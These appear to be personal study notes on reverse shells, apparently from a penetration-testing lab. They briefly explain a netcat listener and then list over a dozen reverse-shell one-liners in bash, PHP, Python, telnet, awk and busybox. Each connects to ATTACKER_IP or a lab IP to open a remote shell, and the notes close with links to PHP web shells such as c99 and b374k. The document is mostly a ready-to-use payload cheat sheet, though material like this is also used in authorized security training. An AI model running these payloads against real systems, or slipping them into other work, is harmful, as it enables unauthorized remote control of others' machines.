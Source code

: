- connection initiates from target system to attacker's machine
- help avoid detection from firewalls and security apps
- Setup netcat listener
```shell-session
nc -lvnp 443
```
- -v: verbose
- -l: listen/wait for connection
- -n: prevent use of DNS lookup
- -p to indicate port
- start reverse shell using payload
	- Ex:
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```


## Shell Payloads: 

**Normal Bash Reverse Shell**
```shell-session
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

**Bash Read Line** **Reverse Shell**
```shell-session
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

**Bash With File Descriptor 196** **Reverse Shell**
```shell-session
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

**Bash With File Descriptor 5** **Reverse Shell**
```shell-session
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

**PHP Reverse Shell Using the exec Function**
```shell-session
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

**PHP Reverse Shell Using the shell_exec Function**
```shell-session
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

**PHP Reverse Shell Using the system Function**
```shell-session
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

**PHP Reverse Shell Using the passthru Function**
```shell-session
 php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

**PHP Reverse Shell Using the popen Function**
```shell-session
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

**Python Reverse Shell by Exporting Environment Variables**
```shell-session
 export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

**Python Reverse Shell Using the subprocess Module**
```shell-session
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

**Short Python Reverse Shell**
```shell-session
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

**Telnet**
```shell-session
TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

**AWK**
```shell-session
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**BusyBox**
```shell-session
busybox nc ATTACKER_IP 443 -e sh
```

Web shells:
- [p0wny-shell](https://github.com/flozz/p0wny-shell), single file PHP
- [b374k shell](https://github.com/b374k/b374k), more features with file management and command eecutions
- [c99 shell](https://www.r57shell.net/single.php?id=13), well-known and robust PHP web shell